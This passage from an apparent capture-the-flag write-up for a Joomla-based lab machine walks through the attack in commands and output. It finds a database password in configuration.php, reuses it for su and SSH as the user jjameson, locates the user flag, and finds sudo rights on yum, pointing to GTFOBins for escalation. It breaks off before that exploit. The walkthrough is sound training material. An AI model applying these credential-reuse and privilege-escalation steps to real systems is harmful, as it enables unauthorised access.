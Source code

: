 Searching passwords in config PHP files

/var/www/html/configuration.php: public $password = 'nv5uz9r3ZEDzVjNu';

\[snip...]

### **Elevate privileges to "jjameson" user (Privilege Escalation: Valid Accounts: Local Accounts (ID: T1078.003))** <a href="#tkf0wkm6svo7" id="tkf0wkm6svo7"></a>

su jjameson

Password: nv5uz9r3ZEDzVjNu

id

uid=1000(jjameson) gid=1000(jjameson) groups=1000(jjameson)

* Find user flag.

cd /

find / -name user.\* -type f 2>/dev/null

\[snip ...]

/home/jjameson/user.txt

### **Connect to target host over SSH using "jjameson" credentials (Lateral Movement: Remote Services: SSH (ID: T1021.004))** <a href="#u9shacjsn8w8" id="u9shacjsn8w8"></a>

sh jjameson@10.10.91.236

The authenticity of host '10.10.91.236 (10.10.91.236)' can't be established.

ECDSA key fingerprint is SHA256:apAdD+3yApa9Kmt7Xum5WFyVFUHZm/dCR/uJyuuCi5g.

Are you sure you want to continue connecting (yes/no)? yes

Warning: Permanently added '10.10.91.236' (ECDSA) to the list of known hosts.

jjameson@10.10.91.236's password:

Last login: Mon Dec 16 05:14:55 2019 from netwars

* Find any sudo delegation.

sudo -l

\[snip...]

User jjameson may run the following commands on dailybugle:

(ALL) NOPASSWD: /usr/bin/yum

### **Check for "yum" "sudo" exploits in**[ **GTFOBins**](https://gtfobins.github.io/gtfobins/yum/#sudo) **(Resource Development: Develop Capabilities: Exploits (ID: T1587.004))** <a href="#id-1bsa4gkbyxth" id="id-1bsa4gkbyxth"></a>
